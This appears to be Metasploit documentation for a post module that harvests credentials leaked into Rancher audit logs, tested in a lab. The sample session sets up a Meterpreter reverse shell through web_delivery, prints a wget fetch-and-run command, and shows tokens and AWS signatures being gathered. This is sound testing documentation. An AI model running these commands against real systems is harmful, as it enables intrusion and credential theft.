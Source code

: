 ## Vulnerable Application

Rancher versions between 2.6.0-2.6.13, 2.7.0-2.7.9, 2.8.0-2.8.1 inclusive
contain a vulnerability where sensitive data is leaked into the audit logs.
Rancher Audit Logging is an opt-in feature, only deployments that have it
enabled and have AUDIT_LEVEL set to 1 or above are impacted by this issue.

Tested against rancher 2.6.0 and 2.8.1.

### Install

Run the following docker command: 
`docker run -d --restart=unless-stopped -p 80:80 -p 443:443 -e AUDIT_LEVEL=3 -v /var/log/rancher/auditlog:/var/log/auditlog --privileged rancher/rancher:v2.6.0`

You'll now need to grab the install key via `docker logs`: `docker logs <docker_id> 2>&1 | grep "Bootstrap Password:"`

Lets now add some data for the logs:

1. Click Cluster Management
1. Select Cloud Credentials:
  1. Click the hamburger in the top left corner
  1. Select Cluster Management
  1. Click Cloud Credentials, and Create
  1. Pick Digital Ocean
    1. Fill in random data, it doesn't have to validate and be a live account
    1. Click Create. It will fail, but the audit logs we need have been written
  1. Pick Amazon
    1. Fill in random data, it doesn't have to validate and be a live account
    1. Click Create. It will fail, but the audit logs we need have been written
1. Click your user icon in the top right corner
  1. Select Accounts & API Keys
    1. Click Create API Key
    1. Give it a name and click create. Write down these values
  1. Perform a request via curl (on the docker image is easiest) which will generate more logs (but ultimately fail): 
`curl -H "X-Api-Auth-Header: <your bearer token>" -H "X-Amz-Security-Token: FINDME" -k https://172.17.0.2/v3/clusters`

## Verification Steps

1. Install the application and generate data
1. Start msfconsole
1. Get a shell
1. Do: `use post/linux/gather/rancher_audit_log_leak`
1. Do: `set session [#]`
1. Do: `run`
1. You should get a table of leaky fields found

## Options

### LOGFILE

The log file to analyze. Defaults to `/var/log/auditlog/rancher-api-audit.log`

## Scenarios

### Rancher 2.6.0 on Docker

```
[*] Processing rancher_logs.rb for ERB directives.
resource (rancher_logs.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (rancher_logs.rb)> set target 7
target => 7
resource (rancher_logs.rb)> set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (rancher_logs.rb)> set lhost 172.18.0.1
lhost => 172.18.0.1
resource (rancher_logs.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 172.18.0.1:4444 
[*] Using URL: http://172.18.0.1:8080/zpJT4e2V
[*] Server started.
[*] Run the following command on the target machine:
wget -qO gmZmOwc0 --no-check-certificate http://172.18.0.1:8080/zpJT4e2V; chmod +x gmZmOwc0; ./gmZmOwc0& disown
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.17.0.2:34252) at 2024-03-13 16:51:26 +0000
```

```
resource (rancher_logs.rb)> use post/linux/gather/rancher_audit_log_leak
resource (rancher_logs.rb)> set session 1
session => 1
resource (rancher_logs.rb)> set verbose true
verbose => true
msf post(linux/gather/rancher_audit_log_leak) > 
msf post(linux/gather/rancher_audit_log_leak) > run

[+] Rancher log saved to: /root/.msf4/loot/20240313165133_default_172.17.0.2_rancher.api.log_616439.txt
[+] Found X-Api-Auth-Header token-p6nzp:zcpscwmzbx2kvfdffl8lqlqv5564s98225zn5ds67rtnw5m4hcjlqs
[+] Found X-Amz-Security-Token FINDME
[+] Found X-Api-Auth-Header Bearer aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[+] Found X-Api-Set-Cookie-Header: __cf_bm=2W30ytsdvsLv72Iok1yhwxxsb2vMTPSR7TBCwVZFSGA-1710342756-1.0.1.1-W82_TGzMA.9nV.Qan0XFdGijkdil8VjhuSHbCC85hD2XEsS9rEaR_IlX0X_hsDuDj52ULmlywjjTJZP5zkk503.D4IDGc30FExY2pUhDRyU; path=/; expires=Wed, 13-Mar-24 15:42:36 GMT; domain=.digitalocean.com; HttpOnly; Secure; SameSite=None
[+] Found X-Api-Auth-Header Bearer digital_ocean_access_token
[+] Found X-Api-Set-Cookie-Header: __cf_bm=MDIoCaX1Uv1po1JmVaiUvzljV4m9vovMhzjQBN36u2c-1710342849-1.0.1.1-GaceyvEmf5JRuEDxjuU.ByuyIEj6RtMkdN.QqbENHhCLLk.VLlSqn2kk6ykypIZqbpWgzQtOk6iamIROy456PtvgVL9PA3ZebG9CFh1y8IM; path=/; expires=Wed, 13-Mar-24 15:44:09 GMT; domain=.digitalocean.com; HttpOnly; Secure; SameSite=None
[+] Found X-Api-Auth-Header AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-content-sha256;x-amz-date;x-amz-user-agent, Signature=be70968f3e291c0dad80ea15daa220ab8e87d79b76f28e782319443a174aa626
[+] Found X-Api-Auth-Header AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-content-sha256;x-amz-date;x-amz-user-agent, Signature=32d930648433fbb8d4da9a26af23ec83ce0df0e9010e56da3b7ee2708cee0e75
[+] Found X-Api-Auth-Header AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-content-sha256;x-amz-date;x-amz-user-agent, Signature=6992fecba7ad5f33e0cf5ab5d86c4e7df8b332a74c861a5d3f05a65a5fbc9bed
[+] Leaked Information
==================

 Field                    Value                                                                                                                                                                       Location
 -----                    -----                                                                                                                                                                       --------
 Username                 admin                                                                                                                                                                       Requests
 X-Amz-Security-Token     FINDME                                                                                                                                                                      requestHeader
 X-Api-Auth-Header        token-p6nzp:zcpscwmzbx2kvfdffl8lqlqv5564s98225zn5ds67rtnw5m4hcjlqs                                                                                                          requestHeader
 X-Api-Auth-Header        Bearer aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa                                                                                                                       requestHeader
 X-Api-Auth-Header        Bearer digital_ocean_access_token                                                                                                                                           requestHeader
 X-Api-Auth-Header        AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-conten  requestHeader
                          t-sha256;x-amz-date;x-amz-user-agent, Signature=be70968f3e291c0dad80ea15daa220ab8e87d79b76f28e782319443a174aa626
 X-Api-Auth-Header        AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-conten  requestHeader
                          t-sha256;x-amz-date;x-amz-user-agent, Signature=32d930648433fbb8d4da9a26af23ec83ce0df0e9010e56da3b7ee2708cee0e75
 X-Api-Auth-Header        AWS4-HMAC-SHA256 Credential=aws_key/20240313/us-west-2/ec2/aws4_request, SignedHeaders=amz-sdk-invocation-id;amz-sdk-request;content-length;content-type;host;x-amz-conten  requestHeader
                          t-sha256;x-amz-date;x-amz-user-agent, Signature=6992fecba7ad5f33e0cf5ab5d86c4e7df8b332a74c861a5d3f05a65a5fbc9bed
 X-Api-Set-Cookie-Header  __cf_bm=2W30ytsdvsLv72Iok1yhwxxsb2vMTPSR7TBCwVZFSGA-1710342756-1.0.1.1-W82_TGzMA.9nV.Qan0XFdGijkdil8VjhuSHbCC85hD2XEsS9rEaR_IlX0X_hsDuDj52ULmlywjjTJZP5zkk503.D4IDGc30FExY  responseHeader
                          2pUhDRyU; path=/; expires=Wed, 13-Mar-24 15:42:36 GMT; domain=.digitalocean.com; HttpOnly; Secure; SameSite=None
 X-Api-Set-Cookie-Header  __cf_bm=MDIoCaX1Uv1po1JmVaiUvzljV4m9vovMhzjQBN36u2c-1710342849-1.0.1.1-GaceyvEmf5JRuEDxjuU.ByuyIEj6RtMkdN.QqbENHhCLLk.VLlSqn2kk6ykypIZqbpWgzQtOk6iamIROy456PtvgVL9PA3ZebG9  responseHeader
                          CFh1y8IM; path=/; expires=Wed, 13-Mar-24 15:44:09 GMT; domain=.digitalocean.com; HttpOnly; Secure; SameSite=None

[*] Post module execution completed
msf post(linux/gather/rancher_audit_log_leak) > 
```
